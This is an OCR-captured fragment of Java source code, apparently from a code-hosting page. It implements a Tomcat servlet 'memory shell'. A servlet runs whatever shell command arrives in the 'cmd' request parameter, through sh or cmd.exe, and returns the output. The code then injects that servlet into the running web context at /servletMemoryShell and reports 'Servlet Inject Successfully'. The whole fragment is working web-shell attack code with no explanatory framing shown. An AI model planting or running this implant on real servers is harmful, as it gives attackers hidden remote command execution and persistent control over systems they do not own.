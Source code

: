 ```java
                        boolean isLinux = true;
                        String osType = System.getProperty("os.name");
                        if (osType != null && osType.toLowerCase().contains("win")) {
                            isLinux = false;
                        }

                        String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("cmd")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("cmd")};
                        InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                        Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                        String output = scanner.hasNext() ? scanner.next() : "";
                        httpServletResponse.getWriter().write(output);
                        httpServletResponse.getWriter().flush();
                    }
                }

                public String getServletInfo() {
                    return null;
                }

                public void destroy() {
                }
            };
            wrapper.setLoadOnStartup(1);
            wrapper.setServlet(servletMemoryShell);
            wrapper.setServletClass(servletMemoryShell.getClass().getName());

            standardContext.addChild(wrapper);
            standardContext.addServletMapping("/servletMemoryShell", "servletMemoryShell");

            response.getWriter().write("Servlet Inject Successfully...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
